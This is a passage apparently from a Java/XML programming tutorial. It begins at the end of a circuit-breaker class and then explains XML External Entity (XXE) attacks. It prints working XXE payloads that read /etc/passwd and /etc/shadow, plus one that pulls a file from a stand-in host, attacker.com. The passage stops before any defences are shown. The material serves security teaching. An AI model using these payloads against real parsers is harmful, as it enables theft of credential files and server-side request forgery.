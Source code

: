 ```java
    
    private void recordFailure() {
        failures++;
        lastFailure = System.currentTimeMillis();
    }
    
    private void reset() {
        failures = 0;
        lastFailure = 0;
    }
}
```

---

## 14. Security Considerations

### XML External Entity (XXE) Attacks

**XXE** is one of the most dangerous XML security vulnerabilities. It allows attackers to read files, perform server-side request forgery (SSRF), and potentially execute remote code.

#### How XXE Attacks Work

**Malicious XML:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<library>
  <book>
    <title>&xxe;</title>  <!-- This reads /etc/passwd -->
  </book>
</library>
```

**Result:** The parser replaces `&xxe;` with the contents of `/etc/passwd`!

#### XXE Attack Variations

##### 1. Local File Reading
```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/shadow">
]>
<root>&xxe;</root>
```

##### 2. Remote File Inclusion  
```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious.xml">
]>
<root>&xxe;</root>
```
